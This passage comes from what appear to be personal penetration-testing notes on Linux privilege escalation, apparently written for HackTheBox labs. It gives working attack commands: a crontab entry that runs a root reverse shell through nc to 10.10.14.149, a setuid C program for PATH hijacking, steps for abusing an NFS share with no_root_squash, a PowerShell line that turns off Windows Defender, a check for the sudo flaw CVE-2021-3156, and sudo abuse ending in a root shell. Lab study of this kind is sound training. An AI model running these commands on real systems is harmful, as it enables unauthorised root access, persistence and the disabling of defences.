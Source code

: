 	- some permissions might be sated niside some file there.
```shell
cp /etc/crontab . && echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.149 1234 >/tmp/f ' >> crontab
```
#### 6) PATH exploiting
- create a c program in your home, with name "path"
```C
#include<unistd.h>
void main()
{ setuid(0);
	setgid(0);
	system("somefile");
}
```
- `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`    
	- -> Will give you foldernames that is writtable
- `export PATH=/yourfolder:$PATH`
- make a bash program in $yourfolder
	- `echo "/bin/bash" > somefile`
	- `chmod 777 somefile`
- run your 1st code "./path"
#### 7) NFS(Network File Sharing) server Exploit

~ `cat /etc/exports`  -> check if there is folder with"no_root_squash"
* `showmount -e $VictimIP` -> will show you folders "folderNFS"
* `mkdir /tmp/victimfiles`
* `mount -o rw $VictimIP:/folderNFS /tmp/victimfiles`
* Create a c script for reverse shell gaining
* compile it with gcc
*	give it permission(+s)
-  exeute the script from victim shell
#### 8) Vulnerable Software
- We can look for installed software with `dpkg -l` and if they have #public_exploit we will check.
- To Disable Windows Defender - `powershell.exe -c “Set-MpPreference -DisableRealtimeMonitoring $true -Verbose”`
#### 9) Sudo Privilege
- We can check what `sudo` privileges we have with the `sudo -l` command.
- There are certain occasions where we may be allowed to execute certain applications, or all applications, without having to provide a password
```shell
hnathan26@htb[/htb]$ sudo -l 
	(user : user) NOPASSWD: /bin/echo
```
- You can Check if Machine is Vulnerable for ` sudo 1.8.31 ` - **CVE-2021-3156**
	- `sudoedit -s Y`
		- If it asks for your password it's most likely vulnerable, 
		- if it prints usage information it isn't.
- To run commands as another user
- `sudo -u user /bin/echo Hello World!`
```shell
svc_workstations@inlanefreight.htb:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb:~$ sudo su

root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```